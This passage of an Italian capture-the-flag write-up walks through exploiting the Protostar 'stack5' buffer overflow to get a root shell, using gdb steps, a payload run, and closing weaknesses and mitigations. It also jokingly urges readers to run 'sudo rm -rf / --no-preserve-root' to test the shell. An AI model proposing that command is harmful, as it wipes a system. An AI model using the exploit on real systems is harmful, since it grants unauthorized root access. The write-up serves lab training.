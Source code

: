 ```bash
#inseriamo il breakpoint prima della leave
(gdb) > b * 0x080483d9
#eseguiamo il programma con l'input malizioso
(gdb) > r < /tmp/payload
#facciamoci stampare il contenuto di $esp
(gdb) > p $esp
$7= (void *) 0xbffffcb0
(gdb) > x/a $esp
0xbffffcb0: 0xbffffcc0
#0xbffffcc0 da impostare come nuovo valore di ret
#nello script python
```
## Esecuzione
Una volta aggiornato _ret_ con 0xbffffcc0 generiamo il nuovo payload ed eseguiamo **stack5**
```bash
> /opt/protostar/bin/stack5 < /tmp/payload
```
Notiamo che non si ha un crash ma la shell termina immediatamente perchè lo STDIN è vuoto

### Soluzione allo STDIN vuoto
Bisogna dare alla shell iniettata uno STDIN aperto, per farlo modifichiamo il comando che usiamo per lanciare l'attacco
```bash
> (cat /tmp/payload; cat) | /opt/protostar/bin/stack5
```
La prima _cat_ inietta l'input malevolo e attiva la shell, la seconda accetta input da STDIN e lo inoltra alla shell lasciano lo STDIN aperto, così facendo **l'attacco riesce!**.  
Per provare se siamo effettivamente riusciti a diventare **root** digitiamo il comando `whoami` se l'output del comando è `root` allora l'attacco è stato portato a termine con successo.  
Per vedere se funziona la shell iniettata digitare 😆
```bash
sudo rm -rf / --no-preserve-root
```

## Debolezze
1. privilegi troppo elevati per stack5
2. la grandezza da assegnare ad una variabile di lunghezza fissa non viene controllata, così facendo un input troppo grande corrompe lo stack
## Mitigazione
1. assegnare a stack5 i giusti privilegi
2. limitare la lunghezza massima dell'input, oppure, usare _fgets()_
